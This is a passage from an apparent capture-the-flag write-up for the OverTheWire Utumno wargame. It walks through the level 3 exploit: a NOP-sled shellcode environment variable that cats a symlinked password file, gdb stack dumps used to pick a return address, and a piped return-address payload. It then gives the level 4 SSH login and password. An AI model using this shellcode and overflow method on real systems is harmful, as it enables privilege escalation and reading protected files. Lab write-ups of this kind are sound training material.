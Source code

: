 The last step is to create an environement variable containing our shellcode and find a proper return address. Note that this shellcode read the password at `/etc/utumno_pass/utumno4`, it does not give a **/bin/sh**.

```bash
utumno3@melinda:/tmp/uh3$export EGG=`python -c 'print "\x90"*500 + "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\x68\x2f\x61\x78\x63\x68\x2f\x74\x6d\x70\x89\xe1\x52\x89\xe2\x51\x53\x89\xe1\xcd\x80"'`
utumno3@melinda:/tmp/uh3$ ln -s /etc/utumno_pass/utumno4 /tmp/axc
$ gdb -q ./utumno3
Reading symbols from ./utumno3...done.
(gdb) set disassembly-flavor intel
(gdb) break *main
Breakpoint 1 at 0x80483eb: file utumno3.c, line 20.
(gdb) run
Starting program: /utumno/utumno3

Breakpoint 1, main (argc=1, argv=0xffffd504) at utumno3.c:20
20	utumno3.c: No such file or directory.
(gdb) x/1200x $esp-1200
0xffffcfbc:	0x00000003	0x00554e47	0x9153bb84	0x00000000
...
0xffffdc1c:	0x5f485353	0x4e4e4f43	0x49544345	0x313d4e4f
0xffffdc2c:	0x312e3430	0x312e3336	0x382e3936	0x34352036
0xffffdc3c:	0x20393733	0x2e323931	0x2e383631	0x2e313031
0xffffdc4c:	0x32203039	0x47450032	0x90903d47	0x90909090
0xffffdc5c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdc6c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdc7c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdc8c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdc9c:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdcac:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdcbc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdccc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdcdc:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffdcec:	0x90909090	0x90909090	0x90909090	0x90909090
```

Here I used `0xffffdc9c` as return address. Now, we can try that in our shell :

```bash
$ python -c "print '\x28\x9c\x2a\xdc\x2c\xff\x22\xff'" | ./utumno3
oogieleoga
```

If your math is right, you get the password.

## Utumno 04 Solution

**SSH :** *ssh utumno4@utumno.labs.overthewire.org -p 2227*<br/>
**Pass :** *oogieleoga*

Here, if you don't pass an argument you get a *segfault*. Let's analyse this executable in **GDB**.
